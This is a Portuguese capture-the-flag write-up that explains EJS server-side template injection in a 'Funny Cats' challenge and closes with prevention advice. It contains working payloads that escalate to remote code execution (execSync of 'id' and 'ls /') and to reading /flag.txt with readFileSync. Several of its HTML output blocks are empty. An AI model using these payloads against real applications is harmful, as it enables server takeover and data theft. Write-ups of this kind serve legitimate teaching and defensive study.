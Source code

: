 
---

# 🛡️ Desafio de Template Injection no site Chapéu de Palha Hacker

> *"Esses gatos escondem algo... Descubra o que é!"*

---

## 📌 Contexto Rápido

| Item | Detalhe |
| :---------------------- | :-------------------------------------------------------------------------- |
| 🎯 **Nome do Desafio** | **Funny Cats** |
| 📍 **Local da Flag** | `/flag.txt` |
| 🌐 **URL** | [https://funny-cats.chapeudepalhahacker.club/](https://funny-cats.chapeudepalhahacker.club/) |
| 💡 **Observação Inicial** | Encontra a flag ara pontuar. |

---

## 1️⃣ Introdução à Vulnerabilidade

### 🤔📚 O que é Template Injection?

**Template Injection** é uma vulnerabilidade que ocorre quando a entrada do usuário é injetada diretamente em um template sem o devido tratamento. Isso permite que um atacante execute código malicioso dentro do ambiente do servidor, explorando o sistema de templates utilizado pela aplicação.

Sistemas como **Jinja2**, **Twig**, **Smarty**, **Freemarker**, e **EJS** são amplamente usados em aplicações web para separar lógica de negócio da apresentação. Eles permitem a inserção de variáveis e estruturas de controle (como loops e condicionais) dentro de templates dinâmicos. Quando a entrada do usuário é incorporada diretamente no template sem escape ou validação, um atacante pode abusar da própria sintaxe do motor de templates para manipular o comportamento da aplicação — e, em alguns casos, executar comandos arbitrários no servidor. ⚠️💻

### 💡🔍 Como Funciona?

Imagine um campo de entrada cujo conteúdo é renderizado diretamente por um motor de template. Em EJS, por exemplo, `<%= 7 * 7 %>` renderiza `49`.

Se o conteúdo enviado por um usuário for passado diretamente ao template, um atacante pode tentar algo como:

```ejs
<%= require('child_process').execSync('id').toString() %>
```

Se o ambiente permitir, esse código executa o comando `id` no sistema operacional. Assim, identificar o motor de template e entender sua sintaxe é essencial para explorar a falha. 🚀🔓

---

## 2️⃣ Análise do Desafio e Identificação da Vulnerabilidade

Comecei explorando a aplicação web, buscando interações e pistas no código-fonte. Logo percebi um comentário HTML curioso:

```html
```

A URL acessada era:

```text
gato?name=alfredo
```

Ao alterar o parâmetro para `teste123` (`gato?name=teste123`), o comentário foi atualizado:

```html
```

🚨 **Entrada refletida diretamente em HTML = potencial vulnerabilidade.**

Decidi então testar se a aplicação processava a entrada como parte de um template. Após algumas tentativas com payloads comuns (URL-encoded), utilizei:

```matlab
<%= 2*2 %>
```

O resultado refletido foi:

```html
```

✅ **Vulnerabilidade confirmada!**
A aplicação estava vulnerável a **Template Injection**, e a sintaxe indicava que o motor usado era provavelmente **EJS** (Embedded JavaScript), popular em ambientes Node.js. 🐾🔥

---

## 3️⃣ Exploração da Vulnerabilidade: Rumo à Flag

Com a vulnerabilidade confirmada, o próximo passo foi alcançar uma **Execução Remota de Código (RCE)** para acessar a flag do sistema, que estava armazenada em `/flag.txt`. 🚀📄

### 🔹 Passo 1: Execução Remota de Código (RCE)

#### Payload:

```ejs
<%= this.constructor.constructor("return process")().mainModule.require("child_process").execSync("ls /").toString() %>
```

#### Explicação:

* `<%= ... %>`: Sintaxe do EJS para executar e renderizar o resultado do código. 📝
* `this.constructor.constructor(...)`: Acesso ao construtor global `Function`, permitindo criar e executar funções arbitrárias. 🏗️
* `"return process"`: Retorna o objeto `process`, que contém informações e métodos do ambiente Node.js. 🌐
* `.mainModule.require(...)`: Através de `mainModule`, acessa-se o `require`, permitindo importar módulos internos. 📦
* `"child_process"`: Módulo que permite executar comandos do sistema operacional. 🖥️
* `.execSync("ls /")`: Executa o comando `ls /` de forma síncrona, listando arquivos do diretório raiz. 📂
* `.toString()`: Converte o buffer da saída em string legível. 🔤

#### Resultado:

A resposta refletiu a listagem dos arquivos raiz, incluindo o **flag.txt** — sucesso na obtenção de RCE! 🎉🔓

---

### 🔹 Passo 2: Leitura da Flag

Com a flag localizada, bastava ler seu conteúdo. 📖✨

#### Payload:

```ejs
<%= global.process.mainModule.require('fs').readFileSync('/flag.txt', 'utf8') %>
```

#### Explicação:

* Acessa o módulo `fs` (File System) por meio do objeto global `process`. 🗄️
* `readFileSync('/flag.txt', 'utf8')`: Lê o conteúdo do arquivo de forma síncrona e o interpreta como texto UTF-8. 📜

#### Resultado:

A flag foi exibida diretamente no comentário HTML:

```php-template
```

🏁 **Flag capturada com sucesso!** 🎊🐾

---

## 🧩 4. Lições Aprendidas

### ✔️ Boas Práticas

* **Validação e escape de entrada:** Nunca insira dados do usuário diretamente em templates.
* **Menor privilégio:** Rode o servidor com permissões mínimas.
* **Evite exposição de objetos globais:** Como `require`, `process`, e afins.
* **Utilize ambientes sandboxed:** Sempre que possível.

### 🔐 Como prevenir Template Injection?

| Prática | Descrição |
| :---------------------------------------- | :------------------------------------------------------------------------ |
| 🧼 **Sanitização de entrada** | Escapar caracteres especiais e remover trechos perigosos. |
| 🛑 **Evite lógica dinâmica com input** | Não use diretamente dados do usuário na lógica de template. |
| 🔒 **Restrição do ambiente de execução** | Use sandbox ou limitações no acesso a objetos como `require`, `process`. |
| 🧱 **Use templates seguros** | Motores de template com proteções por padrão são preferíveis. |

---

## 🏁 Conclusão

Esse desafio mostrou como uma simples reflexão de parâmetro pode evoluir para execução de código remoto — tudo devido à falta de tratamento adequado em um motor de template.

🔁 **Resumo da exploração:**

1.  Identifiquei o reflexo no HTML.
2.  Confirmei que era um motor de template (EJS).
3.  Usei payloads para explorar o sistema e capturar a flag.

⚠️ **Lembre-se:** vulnerabilidades como essa podem comprometer um sistema inteiro. Desenvolvedores devem sempre validar inputs, aplicar o princípio de menor privilégio e manter suas dependências atualizadas.

---

🧠 **Desafio vencido!**
